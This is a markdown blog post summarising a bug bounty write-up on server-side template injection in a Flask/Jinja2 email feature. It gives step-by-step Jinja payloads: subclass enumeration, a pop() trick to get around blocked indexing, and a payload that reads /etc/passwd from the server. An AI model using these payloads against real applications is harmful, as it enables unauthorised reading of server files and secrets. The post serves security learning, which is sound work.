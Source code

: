 ```yaml
---
layout: post
title:  Bug-Bounty-Writeups-Summary-4
date:   2019-10-31
categories: Bug-Bounty-Writeups-Summarry
comments: false
---
```

### 1. https://medium.com/@akshukatkar/rce-with-flask-jinja-template-injection-ea5d0201b870

RCE with Flask Jinja Template Injection - By Akshay Katkar

Well, this is very awesome writeup and we can learn RCE using flask jinja template injection.

Here is the Key Learn from writeup ->

* The program which he got was private , and  had not large scope, just a single app with lots of features to test

* First, The Author tried to know Technology used by Target  using "**Wappalyzer**" add-on

*  The Target was using Angular dart , python Django & flask

* So, whenever we see python related technologies like Flask and Django , we must try flask ninja template injection as a TRY

* The author knows Python very well and having a good experience with it, and know where developer makes mistake

* The Target have One **Utility** named as **work flow builder**, which is use to build  a financial close process flow. We can Automate daily activities with it like sending approval & sending reminder emails

* Sending Email Functionality , Author said that most of the times e**mail generator apps** are **vulnerable** to **Template Injection**

* Author thought of target sing Jinja2 template as target was built with Python

* Send Email functions have 3 Fields -><br>
a) To<br>
b) Title<br>
c) Description<br>

* He used Payload ->  {{7*7}} in **Title** and **Description** field and click on send email buttion.

* He got email as **"49"** in Subject and {{7*7}} as Description. That mean Subject field is vulnerable to Template Injection

![](https://miro.medium.com/max/1111/1*DPLFosKmDKcxqKSkw9J2Zw.png)

<br>

* `{{7 * 7}}` -> what this doing is evaluating python code inside curly brackets

* Now, he tried another payload to get list of sub classes of object class

`
Payload : {{ [].__class__.__base__.__subclasses__() }}
`
<br><br>
Response He got like this -><br>

![](https://miro.medium.com/max/1509/1*k__m6Ah1EvCEmDL-18aecQ.png)

<br><br>

* Now, the best part is Author explain the code above he used ->

```
1. []  
This is used to create list in Python

2. [].__class__
<type 'list'>   #return class of list

List is sub class of “object” class.

3. Access sub classes of object class .

[].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>.....

This payload gives us a list of all sub classes “object” class.

```
<br><br>
* Now to make this vulnerability to P1 he need to provide POC of using commands like '/etc/passwd' , 'id', 'whoami' etc
<br>

* Author told us that -> 
<br>

"**Most of django apps have config file which contains really sensitive info like AWS keys , API’s & encryption keys.**" 

<br>

* Author already knew path of config file becuase of his previous findings, So for this writeup POC, he decided to read a file. [/etc/passwd]
<br>

* So, to read a file in Python we have to create object of **"file"**.

`
[].__class__.__base__.__subclasses__().index(file)
40  #return index of "file" object
`

this payload in python interpreter we will get index of “file” object

<br>

* When he tried that payload didn't work. He got error like this -><br><br>


![](https://miro.medium.com/max/1075/1*CLXJs210jIR0nQXjTT2cjw.png)

<br>

* Next he tried to directly access file object like this ->
`{{[].__class__.__base__.__subclasses__()[40] }}`
<br>

But again failed.

* It's mean Payload is breaking somewhere.After some try he concluded that may be indexing is block or breaking his payload

* So, Author now told us that in Python to return  a value of list "pop" method is use.
As example ->

<br>

        >>> [1,2,3,4,5].pop(2) 
         3



* Base on that he created payload like ->
                    
        {{[].__class__.__base__.__subclasses__().pop(40) }}


That payload gave  object of **"file"**

<br>

![](https://miro.medium.com/max/1239/1*WqZboWvRQfrEbRQeBR2sIg.png)
<br>

* Now for read "/etc/passwd" ->

        {{[].__class__.__base__.__subclasses__().pop(40)('etc/passwd').read() }}


![](https://miro.medium.com/max/1114/1*QpfhUYMZ5Unug8qzu69KFA.png)
<br>

* So, now we can read "/etc/passwd" file on server.

* Now author can read local files on the GCE instance responsible for sending notifications, including some source code, and configuration files containing very sensitive values (e.g. API and encryption keys).
<br>

This is very superb writeup by Akshay Katkar, We learn many things from this writeup

<br>

Like , first anyalyze the target technologies, understand the application functionalities, understand python usages for read file and when stuck tried some experiments instead of giving up.


